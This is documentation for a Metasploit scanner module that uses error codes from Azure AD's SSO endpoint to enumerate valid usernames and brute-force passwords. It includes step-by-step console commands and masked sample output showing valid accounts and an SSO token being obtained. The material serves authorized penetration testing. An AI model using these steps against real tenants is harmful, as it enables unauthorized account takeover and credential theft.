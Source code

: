 ## Vulnerable Application

The Microsoft Azure AD SSO service has a vulnerable endpoint that delivers an error-code based
response to specific authentication requests in XML. The endpoint, when passed the correct
credentials, will respond with a DesktopSsoToken that can be used to authenticate to Azure AD.
When the authentication is unsuccessful, the error code that is returned can be used to discover
the validity of usernames in the target tenant.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/azure_ad_login`
- [ ] `show info`
- [ ] `set USER_FILE USER_FILE`
- [ ] `set PASS_FILE PASS_FILE`
- [ ] `set DOMAIN example.com`
- [ ] `run`
- [ ] Check output for validity of your test username(s), and password(s)


## Options

### DOMAIN

The target tenant domain to use for the username checks.

### USERNAME

A specific username to verify.

### PASSWORD

A specific password to verify.

### USER_FILE

A file with users, one per line.

### PASS_FILE

A file with passwords, one per line.
    

## Scenarios

### Azure AD Tenants with SSO Enabled
If a tenant's domain is known, you can use this module for username and password brute-forcing.

Specific target output replaced with *s so as not to disclose information

```
msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set PASS_FILE /home/kali/pass.txt
PASS_FILE => /home/kali/pass.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

msf6 auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[+] Password Password1! is invalid but example.com\**** is valid!
[+] Login example.com\****:****** is valid!
[+] Desktop SSO Token: *******************************************
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

If a tenant's domain is known, you can enumerate their usernames
    
```
msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

